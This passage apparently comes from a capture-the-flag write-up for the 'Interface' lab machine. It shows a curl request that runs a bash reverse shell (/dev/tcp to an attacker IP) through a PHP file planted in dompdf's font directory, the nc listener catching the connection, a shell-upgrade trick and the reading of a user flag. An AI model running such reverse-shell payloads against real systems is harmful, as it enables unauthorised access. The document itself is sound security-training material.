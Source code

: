     
    
    oxdf@hacky$ curl -s --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -o- http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php
    

It hangs, but there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.200 59630
    bash: cannot set terminal process group (1290): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ 
    

I’ll upgrade my shell with the `script` / `ssty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ script /dev/null -c bash
    <r/dompdf/dompdf/lib/fonts$ script /dev/null -c bash     
    Script started, file is /dev/null
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
    

And I can read `user.txt` from dev’s home directory:

    
    
    www-data@interface:/home/dev$ cat user.txt
    536a3f62************************
    

## Shell as root

### Enumeration

#### File System

There’s not much else of interest in dev’s home directory. www-data’s home
directory (`/var/www`) has directories for the two virtual hosts (and an empty
`html` folder):

    
    
    www-data@interface:~$ ls
    api  html  starting-page
    
